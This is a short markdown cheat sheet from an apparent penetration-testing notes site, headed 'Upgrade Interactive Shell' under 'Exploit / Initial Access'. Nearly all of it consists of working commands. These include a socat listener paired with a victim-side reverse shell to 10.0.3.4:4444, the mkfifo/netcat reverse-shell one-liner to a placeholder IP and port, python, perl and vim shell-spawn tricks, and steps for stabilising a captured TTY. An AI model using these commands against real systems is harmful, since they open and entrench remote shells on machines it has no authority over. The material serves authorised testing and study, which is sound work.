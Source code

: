 ```yaml
---
title: Upgrade Interactive Shell
parent: Exploit / Initial Access
layout: default
nav_order: 2
---
```


Only the following 2 can get you an interactive shell:
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Socat (is in /usr/bin):\
Listener: `socat file:tty,raw,echo=0 tcp-listen:4444`\
Victim: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`

The following help in getting shell, but will not be fully interactive.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`
`/bin/sh -i` (or bash)
`perl -e 'exec "/bin/sh";'`
`:!bash` (from VIM)
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys
Failed to upgrade interactive shell, and want to ssh tunnel? Read (TBD LINK TO SSH)

Actual way to get a fully stabilise shell:
1. use python first: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. enable term command: `export TERM=xterm`
3. Press Ctrl+Z, then in our own terminal use `stty raw -echo; fg`
4. After finish (`exit` a few times) using or if shell dies, you wont be able to do anything, to fix type `reset` and press enter.